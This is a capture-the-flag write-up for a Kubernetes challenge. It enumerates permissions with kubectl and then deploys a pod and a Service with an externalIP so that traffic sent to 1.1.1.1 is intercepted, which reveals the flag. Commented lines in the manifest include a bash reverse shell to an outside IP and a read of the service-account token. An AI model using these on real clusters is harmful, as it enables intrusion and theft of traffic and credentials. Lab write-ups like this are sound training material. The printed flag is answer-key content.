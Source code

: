 # Hungry Helmsman
Welcome, chefs of the Kubernetes kitchen! The hungry Helmsman is on the lookout for a unique feast, and his palate is set on flags. Embark on the "Hungry Helmsman" challenge, where Kubernetes prowess meets culinary finesse. Craft the ultimate deployment to reveal the flag!

# Solution
```bash
nc challenge10.play.potluckctf.com 8888
```

Save content of the kubeconfig file in `HungryHelmsman.yaml` and start checking cluster:
```bash
kubectl --kubeconfig HungryHelmsman.yaml get all --all-namespaces
kubectl --kubeconfig HungryHelmsman.yaml get namespaces
kubectl --kubeconfig HungryHelmsman.yaml auth can-i --list -n flag-sender
kubectl --kubeconfig HungryHelmsman.yaml auth can-i --list -n flag-reciver
kubectl --kubeconfig HungryHelmsman.yaml describe pod/flag-sender-676776d678-pcpbx -n flag-sender
```

By output we can see we can create pod and service in `flag-reciver` namespace. We also see the flag is send each 10s to 1.1.1.1:80.
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: shell
  labels:
    app.kubernetes.io/name: shell
spec:
  containers:
  - name: shell
    image: nginxinc/nginx-unprivileged
    # command: ["/bin/bash", "-c", "bash -i >& /dev/tcp/185.41.69.21/1337 0>&1"]
    # command: ["cat", "/var/run/secrets/kubernetes.io/serviceaccount/token"]
    resources:
      limits:
        cpu: "100m"
        memory: "50M"
      requests:
        cpu: "50m"
        memory: "25M"
    securityContext:
      allowPrivilegeEscalation: false
      runAsNonRoot: true
      capabilities:
        drop: ["ALL"]
      seccompProfile:
        type: RuntimeDefault
---
apiVersion: v1
kind: Service
metadata:
  name: service
spec:
  externalIPs:
    - 1.1.1.1
  selector:
    app.kubernetes.io/name: shell
  ports:
    - protocol: TCP
      port: 80
      targetPort: 8080
```

Above code creates pod and redirect by using service all traffic to 1.1.1.1 to this pod.
```bash
kubectl --kubeconfig HungryHelmsman.yaml apply -f shell.yaml -n flag-reciever
kubectl --kubeconfig HungryHelmsman.yaml logs -f pod/shell -n flag-reciever
```

# Flag
`potluck{kubernetes_can_be_a_bit_weird}`

# Hashtags
#kubernetes #kubectl